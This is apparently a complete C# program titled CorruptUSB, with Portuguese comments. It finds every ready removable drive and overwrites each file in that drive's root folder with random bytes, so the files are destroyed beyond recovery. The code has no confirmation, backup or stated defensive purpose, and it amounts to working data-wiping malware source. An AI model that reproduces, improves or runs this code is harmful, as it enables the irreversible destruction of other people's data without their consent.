 using System;
using System.IO;

namespace CorruptUSB {
    class Program {
        static void Main(string[] args) {
            // Verifica se a unidade USB está conectada 
            DriveInfo[] drives = DriveInfo.GetDrives();
            foreach(DriveInfo drive in drives) {
                if (drive.IsReady && drive.DriveType == DriveType.Removable) {
                    Console.WriteLine("Unidade USB detectada!");

                    // Lista todos os arquivos da unidade USB
                    string[] filePaths = Directory.GetFiles(drive.Name);

                    foreach(string filePath in filePaths) {
                        // Corrompe cada arquivo
                        byte[] corruptedBytes = new byte[new FileInfo(filePath).Length];
                        Random rnd = new Random();
                        rnd.NextBytes(corruptedBytes);
                        File.WriteAllBytes(filePath, corruptedBytes);
                    }
                }
            }
        }
    }
}
